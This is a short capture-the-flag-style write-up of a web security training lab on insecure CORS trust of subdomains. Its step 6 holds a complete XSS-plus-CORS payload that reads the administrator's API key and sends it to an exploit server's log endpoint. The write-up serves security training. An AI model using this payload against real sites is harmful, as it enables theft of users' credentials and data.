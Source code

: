 ----

### Lab description

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

#### Lab description

> If you could man-in-the-middle attack (MITM) the victim, you could use a MITM attack to hijack a connection to an insecure subdomain, and inject malicious JavaScript to exploit the CORS configuration. Unfortunately in the lab environment, you can't MITM the victim, so you'll need to find an alternative way of injecting JavaScript into the subdomain.

1. Log with `wiener` 
2. Go to `accountDetails` endpoint
3. Go to any product description at the Home of the application
4. Click on check stock
5. Notice that the subdomain `stock.<lab-id>` is vulnerable to XSS at `prodcutId` parameter

![[Pasted image 20230724214410.png]]

6. Go to exploit server and paste the following payload
```html
`<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>`
```
7. Click on store and after send to the victim
8. Go to the logs and paste the solution (admin apikey) at (Submit solution button)

![[Pasted image 20230724214748.png]]